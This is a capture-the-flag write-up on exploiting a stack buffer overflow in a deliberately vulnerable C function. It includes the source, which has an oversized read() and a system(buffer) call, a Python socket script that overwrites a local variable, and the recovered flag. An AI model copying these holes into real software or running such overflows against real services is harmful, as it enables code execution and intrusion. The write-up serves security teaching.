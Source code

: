 Buffer Overflow Exploitation on a C Program
Introduction

This write-up details the process of exploiting a buffer overflow vulnerability in a C program as part of a Capture The Flag (CTF) challenge. The challenge involved manipulating the value of a variable by overflowing a buffer in the program.
The Vulnerable Program

The C program provided for the challenge contained a function named play(). This function declared a buffer of size 8 bytes and two integer variables a and b. The function read 12 bytes of input into the 8-byte buffer, creating a buffer overflow vulnerability. Depending on the values of a and b, the function would perform different actions, including reading a file named "flag.0".

c code below:

int play() {

	int a;
	int b;
	char buffer[010];
	a = 0x41414141;
	b = 0x42424242;

	if (write(STDOUT_FILENO, "For a moment, nothing happened. Then, after a second or so, nothing continued to happen.\n> ", 91) < 0) {
		perror("write");
	}

	sleep(1);

    if (read(STDIN_FILENO, &buffer, 0xC) < 0) {
        perror("read");
    }
	
	if (a == 31337) {
		system(buffer);
	}

	else if (b == 42) {
		readfile("flag.0");
	}

	else if (b == 23) {
		readfile("vuln1.txt");
	}

	else {
		write(STDOUT_FILENO, "So long and thanks for all the fish.\n", 37);
	}

}

The Exploit

The goal of the challenge was to exploit the buffer overflow vulnerability to change the value of b to 42, causing the program to read the "flag.0" file.

To achieve this, a payload was constructed that consisted of 8 bytes to fill up the buffer, followed by 4 bytes to overwrite the value of b. The payload was sent to the program over a network connection.

Here's the Python script that was used to send the payload:

python

import struct
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 1984))  # replace with the actual host and port

response = s.recv(1024)
print(response)

payload = b'A' * 8  # fill up the buffer
payload += struct.pack('<I', 42)  # overwrite b with 42 (little-endian)

s.send(payload)
response = s.recv(1024)
print(response)

Result

The script successfully exploited the buffer overflow vulnerability, causing the program to read the "flag.0" file and send the contents back over the network connection. The contents of the file were the flag for the CTF challenge: 2661b14c-f490-48d7-909e-d166f0fd8205.
Conclusion

This challenge demonstrated the dangers of buffer overflow vulnerabilities and the importance of proper input validation and buffer management in C programs. By understanding how these vulnerabilities work and how to exploit them, we can write more secure code and better protect our systems from attackers.
